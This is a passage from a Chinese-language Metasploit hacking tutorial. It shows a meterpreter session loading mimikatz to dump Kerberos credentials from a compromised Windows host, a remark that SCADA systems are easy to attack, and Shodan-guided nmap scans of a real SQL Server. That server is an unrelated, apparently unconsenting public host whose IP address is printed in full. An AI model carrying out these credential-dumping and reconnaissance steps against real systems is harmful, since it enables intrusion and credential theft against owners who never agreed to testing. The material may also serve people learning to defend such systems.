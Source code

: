 接着我们尝试一下`mimikatz`来查找系统中的明文密码：

```
meterpreter > load mimikatz
Loading extension mimikatz...Success.
meterpreter > kerberos
[!] Not currently running as SYSTEM
[*] Attempting to getprivs ...
[+] Got SeDebugPrivilege.
[*] Retrieving kerberos credentials
kerberos credentials
====================

AuthID   Package    Domain           User              Password
------   -------    ------           ----              --------
0;57921  NTLM       DESTINY-7846DE5  Administrator
0;997    Negotiate  NT AUTHORITY     LOCAL SERVICE
0;996    Negotiate  NT AUTHORITY     NETWORK SERVICE
0;49264  NTLM
0;999    NTLM       WORKGROUP        DESTINY-7846DE5$
```

好吧，看来没有。

SCADA系统通常是基于XP实现的，因此其受攻击的可能性很大。

最后，scadahacker.com 里有大量关于SCADA漏洞的信息。

## Database/SQL Server

默认情况下，SQL Server运行在TCP的1433及UDP的1434端口。

### 信息收集

首先在Shodan上搜索`sql server`，然后从结果中选取一些IP来用Nmap获取一些信息：

```
msf > db_nmap -sV -p1433 -Pn 123.21.xxx.xxx
[*] Nmap: Starting Nmap 7.60 ( https://nmap.org ) at 2018-10-29 15:32 CST
[*] Nmap: Nmap scan report for 123.21.114.163
[*] Nmap: Host is up (0.30s latency).
[*] Nmap: PORT     STATE SERVICE  VERSION
[*] Nmap: 1433/tcp open  ms-sql-s Microsoft SQL Server 2008 R2 10.50.2500; SP1
[*] Nmap: Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
[*] Nmap: Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 10.99 seconds
```

对于UDP端口的扫描需要root权限，所以我们在Msf外部对同一个IP进行扫描：

```
sudo nmap -sU -sV -p1434 -Pn 123.21.114.163
Password:

Starting Nmap 7.60 ( https://nmap.org ) at 2018-10-29 15:38 CST
Nmap scan report for 123.21.114.163
Host is up.

PORT     STATE         SERVICE  VERSION
1434/udp open|filtered ms-sql-m

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 99.92 seconds
```
